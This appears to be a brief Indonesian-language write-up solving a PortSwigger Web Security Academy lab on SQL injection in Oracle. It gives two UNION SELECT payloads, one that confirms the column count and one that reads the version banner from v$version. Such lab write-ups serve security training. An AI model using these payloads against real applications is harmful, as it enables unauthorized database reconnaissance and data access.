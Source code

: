 # 1. SQL injection attack, querying the database type and version on Oracle

# 2. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

# 3. Penyelesaian

a. Verifikasi bahwa query mengembalikan dua kolom, keduanya berisi teks, menggunakan payload ```'+UNION+SELECT+'abc','def'+FROM+dual--``` pada parameter kategori (bebas):

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/4e2b3c8d-8628-40ac-ad83-0891ef563d64" />

b. Kemudian gunakan payload ini untuk mengakses database ```'+UNION+SELECT+BANNER,+NULL+FROM+v$version--```

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/5932b228-f4a2-4e47-82ee-1f88202a1423" />
